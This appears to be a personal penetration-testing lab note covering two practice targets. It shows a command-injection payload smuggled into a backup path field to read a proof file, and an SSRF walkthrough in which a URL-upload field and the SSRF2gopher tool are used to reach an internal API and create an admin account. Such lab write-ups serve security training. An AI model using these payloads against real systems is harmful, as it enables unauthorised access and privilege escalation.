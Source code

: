 ![[Pasted image 20241218143356.png]]
navigate to `http://solarmedical/dashboard` and back to `http://solarmedical/backup` to refresh it
```bash
c:\backup"&type c:\proof.txt
```
proof.txt `44d9b5daadd2d574a9aa2220c2f903ae`
##### Server Side Request Forgery (SSRF)

######  Glaucidium 
###### SSRF Testing
right under the `Welcome Test!` are fields that are able to be `edited` or `updated`
![[Pasted image 20241208013435.png]]
`Advanced Information` reveals places to upload files, this is a sign of `SSRF`
![[Pasted image 20241208013459.png]]
testing the `Website Field` with `http://192.168.45.231:8000/test` yields no results to my `python3` server
![[Pasted image 20241208013825.png]]
only updates the profile
![[Pasted image 20241208013932.png]]
the `Update CD or RESUME Method` includes 2 options - `upload file` and `upload from URL`
![[Pasted image 20241208014032.png]]
testing the `upload from URL` with this payload `http://192.168.45.231:8000/test` diplays an error
![[Pasted image 20241208014151.png]]
and yields results on our `python3` server
![[Pasted image 20241208014212.png]]

###### SSRF Exploitation
when filtering by `/api` in `burpsuite` we can identify the `POST` request that created our user `test@test.local` - now because of this endpoint `/api/user/create` we are expected to assume `/api/admin/create` exists as well.
![[Pasted image 20241208021628.png]]
if we send the `/api/user/create` to repeater and change it to `/api/admin/create` we can see that it exists and we have to be authenticated to interact with it.
![[Pasted image 20241208021819.png]]
luckily we already proved that `SSRF` is a vector above with the `http://192.168.45.231:8000/test`

so to exploit this we are going to `utilize` a tool called `SSRF2gopher` which is utilized to interact with `API` endpoints
![[Pasted image 20241208022055.png]]
Throwing the last payload into the vulnerable `SSRF` field creates the `admintest` user
```bash
___________  _______                 __          
  / __/ __/ _ \/ __/_  |___ ____  ___  / /  ___ ____
 _\ \_\ \/ , _/ _// __// _ `/ _ \/ _ \/ _ \/ -_) __/
/___/___/_/|_/_/ /____/\_, /\___/ .__/_//_/\__/_/   
                      /___/    /_/                  

Created by eMVee 
    
[?] What is the address of the Host? 
127.0.0.1
[?] What port should be used for gopher? 
80
[?] What endpoint should be used for gopher? 
/api/admin/create
[?] What data would you like to post? 
username=admintest&password=admintest

```
